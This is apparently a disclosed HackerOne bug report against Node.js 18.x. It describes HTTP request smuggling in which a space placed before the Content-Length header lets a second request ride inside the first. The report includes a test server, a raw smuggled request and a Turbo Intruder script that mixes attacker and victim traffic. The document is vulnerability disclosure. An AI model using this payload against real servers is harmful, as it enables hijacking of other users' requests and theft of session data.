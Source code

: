 # HTTP Request Smuggling via Content Length Obfuscation

## Report Details
- **Report ID**: 2237099
- **URL**: https://hackerone.com/reports/2237099
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-11-02T16:52:08.602Z
- **Disclosed**: 2024-05-03T14:55:56.399Z

## Reporter
- **Username**: bpingel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** The default web service in the most recent version of 18.X seems to have an issue with the interpretation of malformed headers. If a space is left before a content-length header then the header is not read correctly. This leaves the ability to smuggle in a second request as the body of the first.

**Description:** HTTP request smuggling is present in applications running on the current version of the 18.X Node JS available for download from nodejs.org. When a space is placed before the content length header of a request it is not interpreted correctly and as a result the beginning of another request can be smuggled in the body. Formatted correctly it can consume portions of other user's requests or force them to access paths they did not intend to.

## Steps To Reproduce:

This simple Node JS application was used for replication and showing of desync in identification parameters within requests.

```
const http = require('http');
const port = 8082;

const server = http.createServer((req, res) => {
  if (req.url === '/hello') {
    console.log(JSON.stringify(req.headers));
    console.log('%s', req.url);
    res.writeHead(200, { 'Content-Type': 'text/plain' });
    res.end('Hello, World!\n');
  } else if (req.url === '/bye') {
    console.log('%s', req.url)
    console.log(JSON.stringify(req.headers));
    res.writeHead(200, { 'Content-Type': 'text/plain' });
    const name = req.headers['x-name'] || 'World';
    res.end(`Goodbye, ${name}!\n`);
  } else {
    res.writeHead(404, { 'Content-Type': 'text/plain' });
    res.end('Route not found\n');
  }
});

server.listen(port, () => {
  console.log(`Server running at http://localhost:${port}/`);
});
```
and the smuggled request would look like this
```
POST /hello HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
 Content-length: 43
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

GET /bye HTTP/1.1
x-name: Bob%s
X-YzBqv: 
```
With `x-name` header being the header used to have an ID present in the request be reflected in the response.


  1. Start up an application using the current version of Node JS 18, sample application above provided.
  2. This testing was done using the Turbo Intruder with the following script to simulate both an attacker poisoning the web socket as well as a legitimate user sending a request to the web service.

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED
                           )

    for word in range(1, 100):
        if word % 2:
            CleanReq = re.sub(r' Content-length: [0-9]+', 'Null-head: test%s', target.req)
            CleanReq = re.sub(r'GET [^v]*v: ', '\r\n', CleanReq)
            engine.queue(CleanReq, word)
        engine.queue(target.req, word)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    table.add(req)
```

{F2823458}

  3. During these requests to /hello you will begin to receive responses from the /bye url. The content-length header in regular request is swapped out with a test ID header to track which request ID is receiving which poisoned requests back. 

## Impact: Using this vulnerability we've already shown that a malicious user can affect the connections of regular users and in worst cases this can be used to steal session data from users as with the right formatting a request could be smuggled that can consume another users entire request, session data and all. As in this log you can see that the first line of a request is being consumed by a header, but this can be completed in other ways to consume more of a request.
{F2823460}

## Impact

Potential full compromise of users sessions on any service running a vulnerable version.

## Attachments
- Bob_Desync.png
- Cleaned_Request.png
- Header_Consumption.png

